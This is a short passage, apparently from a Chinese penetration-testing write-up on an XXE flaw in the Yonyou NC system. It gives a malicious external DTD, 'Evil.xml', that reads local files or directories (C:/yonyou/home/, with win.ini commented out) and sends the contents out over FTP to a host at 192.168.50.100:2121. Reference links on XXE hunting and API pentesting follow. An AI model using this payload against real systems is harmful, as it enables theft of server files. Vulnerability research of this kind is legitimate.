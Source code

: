 如果要查看目录，修改 `Evil.xml` 即可。

📒 Evil.xml
```xml
<!-- <!ENTITY % file SYSTEM "file:///C:/Windows/win.ini"> -->
<!ENTITY % file SYSTEM "file:///C:/yonyou/home/">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://192.168.50.100:2121/%file;'>">
%int;
%send;
```
![image](https://user-images.githubusercontent.com/84888757/223008109-8ac82fd3-57d0-4003-8f7d-d866ff381bd8.png)

# 0x03 参考链接
- [用友NC系统XXE挖掘，读取系统文件](https://zone.huoxian.cn/d/201-ncxxe)
- [常见API接口渗透测试流程](https://mp.weixin.qq.com/s/82msGn0JOPEMsjSJLFkr8Q)



